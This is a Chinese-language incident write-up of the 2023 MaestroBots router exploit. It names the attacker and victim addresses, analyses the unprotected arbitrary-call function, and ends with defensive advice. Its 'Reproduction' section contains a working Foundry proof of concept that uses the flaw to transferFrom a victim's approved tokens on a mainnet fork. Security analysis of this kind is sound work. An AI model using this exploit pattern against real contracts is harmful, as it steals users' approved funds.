





---
layout: post
category: attack_events
---# MaestroBots@arbitrary-call

[MaestroBots](https://twitter.com/MaestroBots)的路由合约受到攻击，漏洞发生约半小时之后项目方就发现并且迅速修复，替换了新的路由合约，并承诺归还大约280ETH给损失的用户。

多笔攻击的手法一致，我们选取其中一笔[MogCoinEth](https://twitter.com/MogCoinEth)来进行分析。

- 时间：2023-10-24 22:53:47 (UTC)
- 损失金额：~281ETH
- twitter
  - [BeosinAlert](https://twitter.com/BeosinAlert/status/1717013965203804457)
  - [Phalcon_xyz](https://twitter.com/Phalcon_xyz/status/1717014871836098663)



## 交易 

- 受攻击的路由合约Router2（存储合约，未开源）：[0x80a64c6D7f12C47B7c66c5B4E20E72bc1FCd5d9e](https://etherscan.io/address/0x80a64c6d7f12c47b7c66c5b4e20e72bc1fcd5d9e#code)
- 代理合约（逻辑合约，未开源）：[0x8EAE9827b45bcC6570c4e82b9E4FE76692b2ff7a](https://etherscan.io/address/0x8eae9827b45bcc6570c4e82b9e4fe76692b2ff7a)

- 分析其中一笔攻击交易：[0xc087fbd68b9349b71838982e789e204454bfd00eebf9c8e101574376eb990d92](https://etherscan.io/tx/0xc087fbd68b9349b71838982e789e204454bfd00eebf9c8e101574376eb990d92)
- 黑客EOA地址：[0xce6397e53c13ff2903ffe8735e478d31e648a2c6](https://etherscan.io/address/0xce6397e53c13ff2903ffe8735e478d31e648a2c6)
- 黑客攻击合约地址（已销毁）：[0xe6c6e86e04de96c4e3a29ad480c94e7a471969ab](https://etherscan.io/address/0xe6c6e86e04de96c4e3a29ad480c94e7a471969ab)
- 新的代理合约（逻辑合约，未开源）：[0x6599aE06914f1f5Ec0053d3F475348D40E608442](https://etherscan.io/address/0x6599ae06914f1f5ec0053d3f475348d40e608442#code)

## 资金流向



## 攻击过程

通过[phalcon](https://explorer.phalcon.xyz/tx/eth/0xc087fbd68b9349b71838982e789e204454bfd00eebf9c8e101574376eb990d92)浏览器可以发现，攻击者写了一个合约，调用`0x9239127f`方法，就成功将代币转移到攻击合约中。



然后后面就是一系列的将获利转换成ETH的操作，我们只需要分析为什么可以直接转移代币即可，这一定是逻辑合约的函数写的有问题。

## 攻击详细分析

由于逻辑合约没有开源（也许就是这个原因，就放松了警惕），我们对其进行反编译，找到`0x9239127f`方法：该函数可以对传入的`varg0`，转换后也就是一个token的地址。任何人可以对其进行任意调用，因为没有做任何传参的校验和权限校验！通览整个方法，也没有发现任何可能revert的地方。



修复之后的逻辑合约已经没有这个方法了



## 复现

[GitHub](https://github.com/chen4903/BlockChainPoC)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

// https://github.com/foundry-rs/foundry/issues/4916
// forge test --match-path test/PoC/11.MaestroBots@arbitrary-call.sol --offline -vvvv --evm-version 'shanghai'

contract ContractTest is Test {
    address public storageContract = 0x80a64c6D7f12C47B7c66c5B4E20E72bc1FCd5d9e;
    IERC20 public Mog = IERC20(0xaaeE1A9723aaDB7afA2810263653A34bA2C21C7a);
    address public logicContract = 0x8EAE9827b45bcC6570c4e82b9E4FE76692b2ff7a;
    // 模拟其中一个受害者
    address victim = 0x4189ad9624F838eef865B09a0BE3369EAaCd8f6F;

    function setUp() public{
        vm.createSelectFork("mainnet", 18_423_219); // 攻击在18_432_662
    }

    function test_exploit() public{

        uint256 attackBefore = Mog.balanceOf(address(this));
        console.log("before attack, Mog balance", attackBefore);

        uint256 allowance = Mog.allowance(victim, storageContract);
        uint256 balance = Mog.balanceOf(victim);
        balance = allowance < balance ? allowance : balance;

        // 从调用关系可以知道，攻击者使用了`transferFrom`
        bytes memory data = abi.encodeWithSignature("transferFrom(address,address,uint256)", victim, address(this), balance);

        address(storageContract).call(abi.encodeWithSelector(
            // 需要调用的方法
            hex"9239127f",
            // token
            uint256(uint160(address(Mog))), 
            // 对于token需要调用的数据
            data,
            // 不太清楚后面两个参数干嘛用的，不了解这个项目
            uint256(0),
            uint256(0)
        ));

        uint256 attackAfter = Mog.balanceOf(address(this));
        console.log("after attack, Mog balance", attackAfter);

        // 检测是否获利
        assertGt(attackAfter, attackBefore);

    }
}
```

## 建议

- 即使没有开源源代码，也不要放松警惕
- 对于关键函数，一定要进行权限检测和参数校验


